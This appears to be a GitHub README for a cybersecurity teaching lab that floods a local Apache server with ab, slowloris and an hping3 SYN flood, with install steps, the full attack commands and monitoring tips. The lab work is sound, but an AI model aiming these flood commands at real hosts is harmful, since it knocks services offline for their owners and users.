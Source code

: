 # DDoS Attack Simulation Lab (Safe Environment)

This project simulates a Denial-of-Service (DoS) and basic DDoS-style attack in a controlled, offline lab environment for cybersecurity education. No external systems were harmed or targeted. This is a legal, ethical simulation for learning and documentation only.

---

## ⚠️ Legal Disclaimer

This project is for **educational use only**. Do not use any tools or scripts from this lab to attack public websites, networks, or systems without **explicit permission**.

---

##  Project Structure

```
DDoS-Lab/
├── attack.sh           # Script to run simulated attacks
├── attack.log          # Output log of attack attempts
├── README.md           # Documentation
├── requirements.txt    # Optional dependencies list
└── screenshots/        # Proof of simulation
```

---

##  Setup Requirements

- Kali Linux or Ubuntu VM
- Apache2 web server as target
- Tools: `ab`, `hping3`, `slowloris`

Install them:

```bash
sudo apt update
sudo apt install apache2 apache2-utils hping3 git -y
```

Install `slowloris`:

```bash
git clone https://github.com/gkbrk/slowloris
```

---

##  Step-by-Step Execution

### 1. Start the Target Server

```bash
sudo systemctl start apache2
```

Verify at: `http://127.0.0.1`

---

### 2. Launch the Attacks

Run each attack separately from `attack.sh` or manually.

#### A. Apache Benchmark

```bash
ab -n 1000 -c 100 http://127.0.0.1/ >> attack.log
```

#### B. Slowloris

```bash
python3 slowloris/slowloris.py 127.0.0.1 >> attack.log
```

#### C. hping3 SYN Flood

```bash
sudo hping3 -S 127.0.0.1 -p 80 --flood >> attack.log
```

(Interrupt with `Ctrl+C` after 5–10 sec)

---

##  Monitoring

While running attacks, open a second terminal and run:

```bash
top
htop
iftop -i lo
```

Take screenshots to document resource usage and server responsiveness.

---

## 📸 Suggested Screenshots

Save these in `screenshots/`:

- Apache server running
- Each attack being launched
- Apache becoming unresponsive
- CPU/network spike in `top` or `iftop`

---

## Educational Value

- Shows how stress on services impacts performance
- Simulates real-world traffic spikes (e.g., botnet flood)
- Trains for detection & response (IDS, logs, firewall tuning)

